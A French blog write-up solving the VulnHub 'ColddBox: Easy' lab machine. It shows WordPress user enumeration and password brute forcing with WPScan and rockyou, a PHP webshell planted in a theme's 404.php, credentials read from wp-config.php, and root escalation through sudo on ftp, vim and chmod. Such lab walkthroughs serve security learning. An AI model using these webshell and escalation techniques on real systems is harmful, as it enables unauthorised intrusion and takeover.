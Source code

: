 # Solution du CTF ColddBox: Easy de VulnHub

[ColddBox: Easy](https://vulnhub.com/entry/colddbox-easy,586/) est comme son nom l'indique un CTF très facile. Il peut toutefois permettre aux débutants de s'initier à différents outils.

Le scan `Nmap` retourne un SSH et un serveur Apache :

```
Nmap scan report for 192.168.56.109
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
```

Sur le site se trouve un vieux Wordpress. J'ai directement dégainé `WPscan` :

```bash
docker run -it --rm wpscanteam/wpscan --url http://192.168.56.109/  -e ap,at,u
```

Le scanner ne trouve aucun plugin mais il y a différents utilisateurs enregistrés :

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

On va bruteforcer les comptes avec l'aide de la wordlist `rockyou`. Je monte mon dossier `/tmp` à l'emplacement `/data` de la VM pour que `WPscan` voit les fichiers :

```bash
docker run -v /tmp/:/data/ -it --rm wpscanteam/wpscan --url http://192.168.56.109/ -U /data/users.txt -P /data/rockyou.txt
```

Ca ne met pas beaucoup de temps avant qu'un compte soit cassé :

```
[SUCCESS] - c0ldd / 9876543210
```

Heureusement le compte est administrateur, on peut donc arrêter le bruteforce ici et se connecter.

La méthode classique est alors d'utiliser l'éditeur de thèmes pour ajouter du code dans un des fichiers PHP du site. J'ai une préférence pour le fichier `404.php` du template. J'y place le code suivant :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
die(); 
```

Evidemment on évitera de mettre un `die()` dans un scénario plus réaliste.

Je peux alors exécuter des commandes via par exemple `/wp-content/themes/twentyfifteen/404.php?cmd=id`

Mais je ne garde le webshell que le temps de passer à reverse-ssh. Après ça je peux fouiller plus à mon aise. Première étape : voir les identifiants pour le MySQL dans le config du Wordpress :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Pas besoin d'aller plus loin, le mot de passe mentionner permet de passer `c0ldd` via la commande `su`.

```bash
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

Il ne faut pas longtemps avant de trouver l'étape suivante :

```bash
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Tous ces exécutables permettent d'obtenir un shell s'ils sont lancés avec les droits root.

Exemple avec `ftp` :

```bash
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/ftp
ftp> !id
uid=0(root) gid=0(root) grupos=0(root)
ftp> !bash
root@ColddBox-Easy:~# cd /root
root@ColddBox-Easy:/root# ls
root.txt
root@ColddBox-Easy:/root# cat root.txt 
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
```

Pour `Vim` on peut bien sûr éditer des fichiers (`/etc/passwd`, `/etc/crontab`, `/etc/sudoers,` etc) pour ajouter un utilisateur privilégié, s'accorder d'autres permissions, etc mais le plus simple est d'invoquer directement un shell depuis l'éditeur :

`:!/bin/sh`

Et pour `chmod` on peut simplement mettre le bit setuid sur `/bin/dash` :

```bash
c0ldd@ColddBox-Easy:~$ sudo /bin/chmod 4755 /bin/dash
c0ldd@ColddBox-Easy:~$ dash -p
# id
uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

*Publié le 18 février 2023*
